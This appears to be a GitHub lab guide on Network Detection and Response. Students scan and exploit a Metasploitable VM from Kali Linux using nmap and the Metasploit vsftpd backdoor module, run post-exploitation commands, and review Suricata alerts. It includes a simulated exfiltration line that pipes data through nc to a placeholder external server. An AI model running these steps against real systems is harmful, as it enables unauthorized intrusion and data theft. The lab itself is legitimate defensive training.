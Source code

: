 # Exploring Network Detection and Response (NDR) with Kali Linux and Metasploitable

## Objective

The purpose of this lab is to provide hands-on experience with Network Detection and Response (NDR) solutions by simulating real-world attacks using Kali Linux and Metasploitable. Participants will learn how to identify vulnerabilities, exploit them, and analyze how an NDR system detects and responds to malicious activities within a network.

## Prerequisites
- Basic understanding of network security concepts.
- Familiarity with penetration testing tools (e.g., Metasploit).
- Access to a virtual lab environment with Hyper-V installed.

## Lab Environment
- Kali Linux: A powerful penetration testing distribution that includes numerous tools for ethical hacking and network security assessments.
- Metasploitable: An intentionally vulnerable Linux distribution designed for testing and training purposes. It allows participants to practice penetration testing techniques.
- NDR Solution (e.g., Suricata or Zeek): An open-source monitoring tool that provides visibility into network traffic, detects anomalies, and can simulate some NDR functionalities.

## Key Learning Outcomes
- Understand the principles of NDR and its importance in modern cybersecurity.
- Gain hands-on experience in reconnaissance, exploitation, and post-exploitation techniques.
- Analyze alerts and logs generated by the NDR solution during simulated attacks.
- Discuss the effectiveness of NDR in detecting and mitigating threats.

## Lab Activities
- Reconnaissance: Use nmap to scan the Metasploitable VM, identifying open ports and services.
- Exploitation: Utilize Metasploit to exploit vulnerabilities in Metasploitable, demonstrating common attack techniques.
- Post-Exploitation: Simulate actions an attacker might take after gaining access, such as privilege escalation and data exfiltration.
- Monitoring and Analysis: Observe and analyze alerts generated by the NDR solution, discussing detection capabilities and incident response.

## Understanding NDR

**What is NDR?**

NDR refers to technologies and processes that monitor network traffic to detect, analyze, and respond to threats in real-time. It emphasizes not just detection but also response strategies.

**Importance of NDR:**

In today’s threat landscape, traditional perimeter defenses are insufficient. NDR solutions help organizations identify threats that bypass these defenses and respond swiftly to minimize damage.

**How NDR Tools Work**
- **Traffic Analysis:** Tools like Suricata analyze network packets in real-time, looking for signatures of known attacks, anomalies, or unusual behavior.
- **Alert Generation:** When suspicious activity is detected, alerts are generated, providing security teams with actionable insights.
- **Incident Response:** The response can range from automated actions (like blocking an IP) to manual interventions based on alert severity.

## Lab Activities

**Update GPG Keys and Package Lists**
Update GPG Keys: Run the following command in the Kali terminal:

```
sudo apt-key adv --refresh-keys --keyserver keyserver.ubuntu.com
```
Next, run the below command to update the list of available packages.

```
sudo apt-get update
```
GPG (GNU Privacy Guard) keys are used to digitally sign packages in a Linux distribution's package repository, updating GPG keys is a security best practice that helps ensure the authenticity and integrity of the software packages you download and install on your system.

**Activity 1: Generating Traffic and Reconnaissance**

Objective: Generate network traffic and identify open ports and services on the Metasploitable VM.

1. Ping Metasploitable from Kali: Open a terminal in Kali Linux and run:
```
ping <Metasploitable_IP>
```

This sends ICMP echo requests to the Metasploitable VM, generating network traffic that can be monitored by NDR solutions.

2. Open a terminal in Kali Linux. Run Nmap to scan the Metasploitable VM:
```
nmap -sS -sV -p- <Metasploitable_IP>
```
3. Analyze the output: Look for open ports, the state of each port (open/closed/filtered), and the service/version information.

Running nmap -sS -sV -p- <Metasploitable_IP> provides crucial information about the network services available on the target. This reconnaissance step is vital for ethical hackers and attackers alike, and understanding the implications of the scan output is essential for effective security assessments and incident response strategies.

**Activity 2: Exploitation**

Objective: Exploit vulnerabilities in Metasploitable to simulate an attack,observing how NDR detects these actions.

1.  Open a terminal in Kali Linux.

2.  Launch Metasploit:
``` 
msfconsole
```

2. Search for available exploits for Metasploitable services (e.g., vsftpd):
```
search vsftpd
```

3. Select and configure the exploit:
```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <Metasploitable_IP>
exploit
```

4. Verify Access: Interact with the session created after exploitation.

**Activity 3: Post-Exploitation Actions**

Objective: Simulate actions an attacker might take after gaining access.

1. Privilege Escalation: Attempt to escalate privileges using techniques. Run the command in Kali Linux
   ```
   sudo -l
   ```
   
2. Data Gathering: Run commands to gather system information on Metasploitable VM
```
uname -a
whoami
```

3. Simulated Data Exfiltration:
Use a command to send data to a controlled external server (or simply log it):
```
echo "Sensitive Data" | nc <your_external_server_IP> <port>
```

**Activity 4: Monitoring and Analysis**

Objective: Simulate monitoring and analyze alerts related to the activities performed.

1. Install and Run an Open-Source NDR Tool: Install Suricata:
```
sudo apt update
sudo apt install suricata
```
2. Start Suricata: Check the status of Suricata to ensure it's running:
```
sudo systemctl status suricata
```

3. If it's not running, start Suricata:
```
sudo systemctl start suricata
```

2. Configure Suricata to monitor the appropriate network interface.
```
sudo suricata -c /etc/suricata/suricata.yaml -i eth0
```

3. Review Logs:

Check logs for alerts generated during the reconnaissance, exploitation, and post-exploitation activities:
```
cat /var/log/suricata/fast.log
```

## Discussion and Analysis
Review the types of attacks conducted and how they might be detected by an NDR solution.
Analyze the alerts generated by Suricata or expected alerts from typical NDR systems.
Discuss how the knowledge gained can be applied to enhance network security measures.

## Summary
Kali Linux: This is where you perform reconnaissance, exploitation, and analysis of alerts using tools like Nmap, Metasploit, and Suricata.
Metasploitable: You'll log in here to get the IP address and potentially as a target for the attacks.

## Ethical Considerations
This lab is intended for educational purposes only. Participants are reminded to operate within a controlled environment and adhere to ethical hacking principles. All activities should be performed in compliance with relevant laws and organizational policies.
